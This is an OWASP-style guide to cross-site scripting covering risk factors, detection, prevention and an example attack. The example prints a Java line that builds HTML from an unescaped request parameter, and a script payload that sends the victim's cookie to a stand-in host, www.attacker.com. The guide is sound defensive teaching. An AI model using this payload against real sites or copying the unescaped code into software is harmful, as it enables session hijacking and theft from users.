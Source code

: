 # Cross-Site Scripting

> XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user supplied data using a browser API that can create JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

{% flowchart width=750 %}
st=>start: Threat Agents:>https://en.wikipedia.org/wiki/Threat_(computer)
e=>end:>https://www.owasp.org/index.php/OWASP_Risk_Rating_Methodology
op1=>operation: Attack Vectors
op2=>operation: Security Weaknesses
op3=>operation: Technical Impacts
op4=>operation: Business Impacts
st(right)->op1(right)->op2(right)->op3(right)->op4(right)
{% endflowchart %}

| Threat Agents <td>Attack Vectors</td><td colspan="2">Security Weakness</td><td>Technical Impacts</td><td>Business Impacts</td> |
| --- | --- | --- | --- | --- | --- |
| Application Specific | Exploitability => Easy | Prevalence => Common | Detectability => Average | Impact => Severe | App/Business Specific |
| Consider anyone who can send untrusted data to the system,including external users, business partners, other systems, internal users, and administrators. | Attackers send text-based attack scripts that exploit the interpreter in the browser. Almost any source of data can be an attack vector, including internal sources such as data from the database. <td colspan="2">XSS flaws occur when an application updates a webpage with attacker controlled data without properly escapingthat content or using a safe JavaScript API. There are two primary categories of XSS flaws: (1) Stored, and (2) Reflected, and each of these can occur on (a) the Serveror (b) on the Client. Detection of most Server XSSflaws is fairly easy via testing or code analysis. Client XSScan be very difficult to identify.</td> <td>Attackers can execute scripts in a victim’s browser to hijack user sessions, deface web sites, insert hostile content, redirect users, hijack the user’s browser using malware, etc.</td><td>Consider the business value of the affected system and all the data it processes.Also consider the business impact of public exposure of the vulnerability.</td> |

## Detecting Vulnerability

* You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output
* And not using context-sensitive escaping to ensure it cannot run.
* If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS.
* Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.
* Automated tools can find some XSS problems automatically.
* Each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies.
* This diversity makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries.
* Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.

## Preventing Vulnerability

Preventing XSS requires separation of untrusted data from active browser content.

1. To avoid Server XSS, the preferred option is to properly escape untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL) that the data will be placed into.
2. To avoid Client XSS, the preferred option is to avoid passing untrusted data to JavaScript and other browser APIs that can generate active content. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP DOM based XSS Prevention Cheat Sheet.
3. For rich content, consider auto-sanitization libraries like OWASP’s AntiSamy or the Java HTML Sanitizer Project.
4. Consider Content Security Policy (CSP) to defend against XSS across your entire site.

## Example Attack Scenarios

* The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

    `(String) page += "<input name='creditcard' type='TEXT'value='" + request.getParameter("CC") + "'>";`

    The attacker modifies the ‘CC’ parameter in his browser to:

    `'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.`

    This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ.

## References

[Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting)

[Cross-Site Scripting Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
